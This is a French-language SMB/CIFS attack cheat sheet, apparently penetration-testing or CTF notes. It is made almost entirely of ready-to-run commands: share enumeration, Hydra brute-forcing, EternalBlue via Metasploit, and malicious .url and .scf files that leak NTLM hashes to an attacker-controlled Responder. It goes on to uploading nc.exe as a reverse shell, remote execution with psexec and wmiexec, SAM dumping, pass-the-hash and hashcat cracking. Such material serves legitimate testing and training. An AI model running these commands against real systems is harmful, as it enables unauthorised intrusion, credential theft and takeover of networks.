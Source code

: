 # SMB/CIFS (139,445/TCP)

Server Message Block (SMB) permet le partage de fichiers, d'imprimantes et de communications entre nœuds sur un réseau.

## 🔍 Énumération
### Scan de base
```bash
# Scan Nmap détaillé
sudo nmap -sV -sC -p 139,445 $IP

# Scripts Nmap spécifiques à SMB
nmap --script=smb-* -p 139,445 $IP
```
### Énumération des partages
```bash
# Avec smbclient
smbclient -N -L //$IP/

# Avec smbmap (montre les permissions)
smbmap -H $IP
smbmap -H $IP -u 'guest' -p ''

# Avec netexec (crackmapexec)
nxc smb $IP -u '' -p '' --shares
```
### Énumération approfondie
```bash
# Enum4linux - outil tout-en-un
enum4linux -a $IP

# Énumération récursive des partages
smbmap -H $IP -R [Nom_Partage]

# Recherche de fichiers spécifiques
smbmap -H $IP -R [Nom_Partage] -A .xml -q
```
## 🔨 Exploitation
### Connexion aux partages
```bash
# Connexion anonyme
smbclient -N //$IP/[Nom_Partage]

# Connexion avec identifiants
smbclient //$IP/[Nom_Partage] -U "username%password"

# Montage du partage localement
mount -t cifs //$IP/[Nom_Partage] /mnt/smb -o username=user,password=pass
```
### Attaque par force brute
```bash
# Avec Hydra
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $IP smb

# Avec Netexec
nxc smb $IP -u users.txt -p passwords.txt
```
### Exploitation des vulnérabilités
```bash
# Test EternalBlue (MS17-010)
nmap --script smb-vuln-ms17-010 -p 445 $IP

# Exploitation avec Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $IP
set LHOST [VOTRE_IP]
run
```
### Capture de hachages NTLM
```bash
# Créer un fichier URL malveillant
cat > shell.url << EOF
[InternetShortcut]  
URL=Random_nonsense  
WorkingDirectory=Flibertygibbit  
IconFile=\\<YOUR tun0 IP>\%USERNAME%.icon  
IconIndex=1
EOF

# Démarrer Responder
sudo responder -I tun0 -wv

# Uploader le fichier sur un partage SMB accessible
smbclient //$IP/[Nom_Partage] -U "username%password" -c "put shell.url"
```
## 🔐 Post-exploitation
### Transfert de fichiers
```bash
# Télécharger un fichier
smbclient //$IP/[Nom_Partage] -U "username%password" -c "get secret.txt"

# Uploader un fichier
smbclient //$IP/[Nom_Partage] -U "username%password" -c "put shell.php"

# Uploader un reverse shell
nxc smb $IP -u 'username' -p 'password' --put-file /path/to/nc.exe /tmp/nc.exe
```
### Exécution de commandes à distance
```bash
# Avec PsExec
impacket-psexec username:password@$IP

# Avec WMIExec
impacket-wmiexec username:password@$IP

# Avec Netexec
nxc smb $IP -u 'username' -p 'password' -x "whoami /all"
```
### Extraction de secrets
```bash
# Dumping SAM database
impacket-secretsdump username:password@$IP

# Pass-the-Hash
nxc smb $IP -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:a11736b048e1323bb41284e6e8919e53' -x "whoami"
```

## ⚠️ Erreurs courantes & astuces
- Les partages IPC$ et ADMIN$ peuvent nécessiter des privilèges élevés
- Le trafic SMB non chiffré peut être intercepté sur le réseau
- Certaines vulnérabilités SMB peuvent crasher des systèmes instables
- Les utilisateurs désactivés peuvent parfois toujours s'authentifier via SMB
- Si SMB échoue, essayez CIFS ou les ports alternatifs

### Astuces SMB tirées de CTFs réels
### Capture de hachages NTLM via SMB (Vault)
Forcer la capture de hachages NTLM en créant un partage SMB attractif:
- Si vous avez un accès en écriture à un partage SMB, vous pouvez créer un fichier SCF malveillant:

```bash
[Shell]
Command=2
IconFile=\\<votre_IP>\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
Démarrer Responder pour capturer les hachages:
```bash
sudo responder -I tun0 -v
```

3. Lorsqu'un utilisateur accède au dossier contenant le fichier SCF, son système tentera de charger l'icône depuis votre serveur SMB, envoyant ainsi ses identifiants NTLM.
4. Cracker le hachage NTLM capturé:
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```